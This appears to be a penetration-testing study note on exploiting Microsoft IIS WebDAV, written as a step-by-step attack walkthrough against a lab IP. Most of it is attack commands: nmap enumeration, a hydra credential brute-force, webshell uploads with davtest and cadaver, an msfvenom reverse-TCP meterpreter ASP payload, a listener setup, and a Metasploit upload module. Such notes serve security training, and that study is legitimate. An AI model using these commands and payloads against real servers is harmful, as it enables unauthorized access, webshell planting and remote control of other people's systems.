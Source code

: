 # Exploiting Microsoft IIS WebDAV
- Microsoft IIS - web server software developed by Microsoft
- Supported executable file extensions - .asp .aspx .config .php

#### WebDAV
- a set of extensions to the HTTP protocol - enables a web server to function as a file server
- uses a pair of username and password for authentication 
#### WebDAV Exploitation:
- Process
	- First, identifying whether WebDAV has been configured to run on the IIS web server
	- Second, perform a brute force to identify legitimate credentials
	- Third, after obtaining legitimate credentials, we can authenticate with WebDAV and upload a malicious .asp payload that will execute arbitrary commands 
- Tools 
	- davtest - scan, authenticate and exploit a WebDAV server
	- cadaver - supports file upload, download, on-screen display, in-place editing, ...
- `$ nmap -sV -sC 10.10.10.10`
- `$ nmap -sV -p 80 --script=http-enum 10.10.10.10`
- for authintication brute-force --> `$ hydra -L <path to username list> -P <path to pass list> 10.10.10.10 http-get /webdav/`
- davtest 
	- `$ davtest -url http://10.10.10.10/webdav`
	- `$ davtest -auth bob: password -url http://10.10.10.10/webdav`
- cadaver
	- `$ cadaver http://10.10.10.10/webdav`
	- once inside, run commands like ls
	- Kali has some preexisted web shells that can be accessed in `/usr/share/webshells/` - that can be used 
	- upload a webshell -- put `/usr/share/webshells/asp/webshell.asp`
	- run the webshell on your browser and execute your commands
- with Metasploit
	- First technique - Manual
		- generate asp payload
		- `$ msfvenom -p windows/meterpreter/reverse_tcp LHOST= your_ip LPORT=port on your sys(1234) -f asp > meterpreter.asp`
		- connect using cadaver
		- upload the file you generated - put `/root/meterpreter.asp`
		- before opening the file on the browser, start a listener
		- `$ service postgresql start && msfconsole``
		- `$ use multi/handler/`
		- `$ set payload windows/meterpreter/reverse_tcp`
		- `$ set lhost <your ip>`
		- `$ set lport 1234`
		- `$ run`
		- when the file is executed on the target, we will gain access to our MSF console tab
	- Second technique - Automated - Recommended
		- use a Metasploit module
		- Search IIS upload
		- use `/exploit/windows/iis/iis_webdav_upload_asp`
		- set the options
		- run
